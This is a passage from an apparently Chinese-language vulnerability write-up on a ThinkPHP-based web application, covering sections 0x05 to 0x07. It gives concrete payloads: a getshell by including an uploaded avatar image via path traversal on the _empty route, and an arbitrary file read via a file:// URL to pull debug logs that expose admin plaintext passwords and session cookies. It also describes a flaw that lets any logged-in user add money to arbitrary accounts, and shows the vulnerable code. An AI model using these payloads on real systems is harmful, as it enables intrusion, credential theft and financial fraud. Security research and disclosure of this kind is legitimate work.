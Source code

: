 ```  
      throw new TemplateNotFoundException('template not exists:' . $template, $template);
    }
    // 记录视图信息
    App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
    $this->template->fetch($template, $data, $config);
  }
```  
所以我们首先需要在 /index/user/register.html 注册一个账号，然后登录，之后点Profile-Click to edit上传头像，符合其规则即可.  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fyFvsrEYwPK2hEBC9hakKbfibVn3KmbpCbMERryLJ3eDxfxBfqJRMM1yL0E273yKhgFPHjv4sz7sQ/640?wx_fmt=other&from=appmsg "")  
  
**之后可以通过F12追踪标签或者查看源码拿到上传的图片地址**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fyFvsrEYwPK2hEBC9hakKbvInNicEjsuWcAn0G8vgmcqRU11lsPb6uDMfic7Q2AHSmH6rPEB5xmK6Q/640?wx_fmt=png&from=appmsg "")  
  
**之后咱们就可以直接通过 _empty 来包含文件实现Getshell了**  
  
**Payload:**  
```
/index/user/_empty?name=../上传的图片地址
```  
  
**当然，由于利用链其本身的缺陷，只能在Windows 下实现包含效果，这里网上文章有详细分析，不多说了.**  
  
## 0x06 任意文件读取+Log日志泄露组合拳  
这套系统开了Debug，同时也开了日志记录，也就是说在 /runtime/log/ 目录下会实时生成日志，包括管理员的访问日志也在其中，正常来说网站是绑定在Public目录下的，咱们无法读取，但可以通过任意文件读取漏洞来跨目录读取这些日志.  
Payload:  
```
/api/ems/juhecurl?url=file:///D:/phpstudy_pro/WWW/runtime/log/202406/29.log
```  
Windows下需要打个绝对路径，直接让网站报错即可，Linux下只需 ../ 跨出去即可  
  
**这里日志规则为: /年(4位)月(2位)/日(2位).log**  
  
  
  
直接读取看起来是没有换行啥的，咱们直接Ctrl+S保存网页到本地即可，打开是有换行的，这里能看到登录时明文的账号密码，直接Ctrl+F搜索 admin 即可找到管理员日志而且还能看到管理员登录成功之后的Cookie，直接替换即可登录进入.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fyFvsrEYwPK2hEBC9hakKbxcYibrSLUPpiarPriaicKbmbwicO1xeMkZjPjPdhicwBHg0WAGHalbDiaOLiaQ/640?wx_fmt=other&from=appmsg "")  
  
**同时这个点也能用来寻找后台地址，一般后台地址都会被改掉，而不是默认的 VwmRIfEYDH.php**  
  
## 0x07 前台水平越权漏洞  
在 /api/controller/Mytask.php 控制器中，money方法存在逻辑缺陷，仅验证了用户的Session，其money user_id id 均可控，导致登陆后可随意增加任意用户金钱.```
public function money($money,$user_id,$id,$sxf=0){
  $user = $this->Usermodel::get($user_id);
  if ($user && $money != 0) {
    $before = $user->money;
    $after = $user->money + $money;
    //更新会员信息
    $user->save(['money' => $after]);
    //写入日志
    MoneyLog::create(['user_id' => $user_id, 'money' => $money, 'before' => $before, 'after' => $after,'fid' => $id, 'sxf' =>$sxf,'memo' => '用户佣金']);
  }else{
    $this->error(__('金额不对')); 
  }
}
```  
  
  
```